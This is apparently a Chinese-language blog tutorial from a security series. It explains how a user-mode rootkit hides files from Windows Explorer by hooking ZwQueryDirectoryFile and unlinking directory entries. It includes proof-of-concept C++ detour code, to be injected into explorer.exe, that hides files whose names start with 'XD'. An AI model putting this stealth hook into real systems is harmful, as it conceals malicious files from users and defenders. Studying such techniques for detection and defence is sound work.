 # 【Day 14】Explorer 你怎麼沒感覺 - Ring3 Rootkit 隱藏檔案

## 環境
* Windows 10 21H1
* Visual Studio 2019

## 前情提要
在[【Day 06】致不滅的 DLL - DLL Injection](https://ithelp.ithome.com.tw/articles/10268768)、[【Day 09】Hook 的奇妙冒險 - Ring3 Hook](https://ithelp.ithome.com.tw/articles/10270919) 我們分別認識了基本的 DLL Injection 和 Hook；在[【Day 13】粗暴後門，Duck 不必 - Windows 簡單後門](https://ithelp.ithome.com.tw/articles/10273669)也認識了後門的存在用途。

之前介紹過，後門是個用來維持權限的手法，讓駭客可以更方便的再次進入受害主機。但是單純的後門可能很容易被發現，所以通常 Rootkit 會需要一些方法躲避偵測。這篇文章將說明 Ring3 Rootkit 的其中一個功能，把存在的檔案隱藏，讓 Explorer 瞎掉。

## Explorer 做了什麼
大家使用 Windows 時，有沒有想過為什麼能看得到桌面、檔案的 Icon 等等，是誰在這所有人都覺得理所當然的 UI 介面後默默付出呢？主角就是 Explorer 這個 Process。

之前聽過一個整人技巧，就是把 Explorer 這個 Process 砍掉。在 cmd 上打以下指令，然後就會看不到桌面和檔案。
```
:: 請在虛擬機上做
# tasklist | find "explorer"
explorer.exe 1656 Console 2 138,028 K

:: 輸入完這行會看不到桌面
# taskkill /pid /f 1656

:: 要復原的話就再開啟 Explorer
# explorer
```

那 Explorer 是怎麼做到把檔案列舉出來的呢？其實 Explorer 這個 Process 使用了定義在 ntdll.dll 的 [ZwQueryDirectoryFile](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwquerydirectoryfile) 函數，它會提供檔案結構讓程式可以訪問它，接著使用者就能看到目錄中有哪些檔案了。所以只要能夠竄改這個檔案結構，就能夠達到隱藏檔案的效果。

## 分析檔案結構
仔細看一下 ZwQueryDirectoryFile 這個函數原型。其中的 FileInformation 就存放著檔案結構，長度為 Length。FileInformation 不只一種型態，而是會根據 FileInformationClass 的不同改變，因此在竄改 FileInformation 時，也需要注意 FileInformationClass。
```
NTSYSAPI NTSTATUS ZwQueryDirectoryFile(
  HANDLE                 FileHandle,
  HANDLE                 Event,
  PIO_APC_ROUTINE        ApcRoutine,
  PVOID                  ApcContext,
  PIO_STATUS_BLOCK       IoStatusBlock,
  PVOID                  FileInformation,
  ULONG                  Length,
  FILE_INFORMATION_CLASS FileInformationClass,
  BOOLEAN                ReturnSingleEntry,
  PUNICODE_STRING        FileName,
  BOOLEAN                RestartScan
);
```

以 [FILE_DIRECTORY_INFORMATION](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_file_directory_information) 為例，它的函數原型如下。第一個參數 NextEntryOffset 存放著目前這個 Entry 到下一個 Entry 的距離，而每個 Entry 都會是一個 FILE_DIRECTORY_INFORMATION。我們可以透過最後一個參數 FileName 來判斷目前這個檔案是不是我們要隱藏的。
```
typedef struct _FILE_DIRECTORY_INFORMATION {
  ULONG         NextEntryOffset;
  ULONG         FileIndex;
  LARGE_INTEGER CreationTime;
  LARGE_INTEGER LastAccessTime;
  LARGE_INTEGER LastWriteTime;
  LARGE_INTEGER ChangeTime;
  LARGE_INTEGER EndOfFile;
  LARGE_INTEGER AllocationSize;
  ULONG         FileAttributes;
  ULONG         FileNameLength;
  WCHAR         FileName[1];
} FILE_DIRECTORY_INFORMATION, *PFILE_DIRECTORY_INFORMATION;
```

## 隱藏檔案的原理
目前已經知道檔案的結構是 FileInformation，其中一個一個 Entry 以 NextEntryOffset 的方式串在一起，下圖簡單示意。
![](https://i.imgur.com/trWG7Rd.png)

如果現在要隱藏的是 File 3，那就把 File 3 這個 Entry 的位址改成 File 4 這個 Entry，示意圖如下。
![](https://i.imgur.com/Ytp0ugk.png)


## 實作
### 實作流程
首先先 Hook ZwQueryDirectoryFile，竄改成我們自己定義的 DetourZwQueryDirectoryFile，實作過程跟[【Day 09】Hook 的奇妙冒險 - Ring3 Hook](https://ithelp.ithome.com.tw/articles/10270919) 大同小異，這邊不贅述，這篇重點放在 DetourZwQueryDirectoryFile 的部分。

1. 呼叫原本的 ZwQueryDirectoryFile，取得檔案結構
2. 確認是不是目標的 FileInformationClass
3. 透過檔名判斷是不是要隱藏的檔案
4. 要隱藏的檔案，就把目前的 Entry 竄改成下一個 Entry。如果已經是最後一個檔案了，就把上一個 Entry 的 NextEntryOffset 改成 0
5. 不隱藏的檔案，就加上 NextEntryOffset 繼續判斷下一個檔案，直到 NextEntryOffset 等於 0 為止

### POC
這裡截取關鍵程式片段，完整的程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Explorer%E4%BD%A0%E6%80%8E%E9%BA%BC%E6%B2%92%E6%84%9F%E8%A6%BA/Rootkit)。
```cpp=
// 竄改原始的 ZwQueryDirectoryFile，隱藏檔名中有 "XD" 字串的檔案
NTSTATUS DetourZwQueryDirectoryFile(
    HANDLE                 FileHandle,
    HANDLE                 Event,
    PIO_APC_ROUTINE        ApcRoutine,
    PVOID                  ApcContext,
    PIO_STATUS_BLOCK       IoStatusBlock,
    PVOID                  FileInformation,
    ULONG                  Length,
    FileInformationClassEx FileInformationClass,
    BOOLEAN                ReturnSingleEntry,
    PUNICODE_STRING        FileName,
    BOOLEAN                RestartScan
) {
    // 1. 呼叫原本的 ZwQueryDirectoryFile，取得檔案結構
    NTSTATUS status = fpZwQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);
    
    // 2. 確認是不是目標的 FileInformationClass
    if (NT_SUCCESS(status) && (FileInformationClass == FileInformationClassEx::FileDirectoryInformation || FileInformationClass == FileInformationClassEx::FileFullDirectoryInformation || FileInformationClass == FileInformationClassEx::FileIdFullDirectoryInformation || FileInformationClass == FileInformationClassEx::FileBothDirectoryInformation || FileInformationClass == FileInformationClassEx::FileIdBothDirectoryInformation || FileInformationClass == FileInformationClassEx::FileNamesInformation)) {
        PVOID pCurrent = FileInformation;
        PVOID pPrevious = NULL;
        do {
            // 3. 透過檔名判斷是不是要隱藏的檔案
            if (wstring(GetFileDirEntryFileName(pCurrent, FileInformationClass)).find(L"XD") == 0) {
                // 4. 要隱藏的檔案，就把目前的 Entry 竄改成下一個 Entry
                ULONG nextEntryOffset = GetFileNextEntryOffset(pCurrent, FileInformationClass);
                if (nextEntryOffset != 0) {
                    int bytes = (DWORD)Length - ((ULONG)pCurrent - (ULONG)FileInformation) - nextEntryOffset;
                    RtlCopyMemory((PVOID)pCurrent, (PVOID)((char*)pCurrent + nextEntryOffset), (DWORD)bytes);
                }
                // 如果已經是最後一個檔案了，就把上一個 Entry 的 NextEntryOffset 改成 0
                else {
                    if (pCurrent == FileInformation)status = 0;
                    else SetFileNextEntryOffset(pPrevious, FileInformationClass, 0);
                    break;
                }
            }
            else {
                // 5. 不隱藏的檔案，就加上 NextEntryOffset 繼續判斷下一個檔案，直到 NextEntryOffset 等於 0 為止
                pPrevious = pCurrent;
                pCurrent = (BYTE*)pCurrent + GetFileNextEntryOffset(pCurrent, FileInformationClass);
            }
        } while (GetFileNextEntryOffset(pPrevious, FileInformationClass) != 0);
    }
    return status;
}
```

### 實際測試
由於這只是個 DLL，還需要一個 DLL Injector 實作 DLL Injection 注入到 explorer.exe 中，可以參考[【Day 06】致不滅的 DLL - DLL Injection](https://ithelp.ithome.com.tw/articles/10268768) 或是用 Cheat Engine 也行。

注入 explorer.exe 之後，會發現檔案名稱有 "XD" 字串的檔案消失了，要回復的話就把 Explorer Process 砍掉重開。

## 參考資料
* [r77-rootkit](https://github.com/bytecode77/r77-rootkit)
